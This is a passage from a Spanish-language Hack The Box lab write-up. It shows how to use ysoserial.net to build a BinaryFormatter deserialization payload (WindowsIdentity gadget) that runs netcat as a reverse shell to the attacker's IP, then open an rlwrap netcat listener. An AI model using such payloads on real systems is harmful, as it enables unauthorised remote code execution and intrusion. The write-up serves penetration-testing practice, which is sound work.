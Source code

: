 La idea, es que vamos a serializar un comando que va a ejecutar el binario **netcat** para obtener una sesión, ya que suponemos que el dueño del servidor es el administrador.

Para realizar esto, necesitamos la herramienta ysoserial que puedes descargar desde aquí (solo para usar en **Windows**)
* <a href="https://github.com/pwntester/ysoserial.net" target="_blank">Repositorio de pwntester: ysoserial.net</a>

Tan solo ve a los releases y obtén el comprimido, descomprímelo y abre una cmd en **Windows** para usar el **ysoserial**:

<p align="center">
<img src="/assets/images/htb-writeup-scrambled/Captura26.png">
</p>

Debemos indicarle el gadget (sería **WindowsIdentity**), la clase de formato (sería **BinaryFormatter**, el mismo que usa el binario), cómo será el output (sería **base64**) y, por último, el comando a ejecutar.

Hagamoslo:
```batch
ysoserial.exe -g WindowsIdentity -f BinaryFormatter -o base64 -c "C:\Temp\nc.exe -e cmd Tu_IP 443"
AAEAAAD///....
```

Abre una **netcat con rlwrap**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```
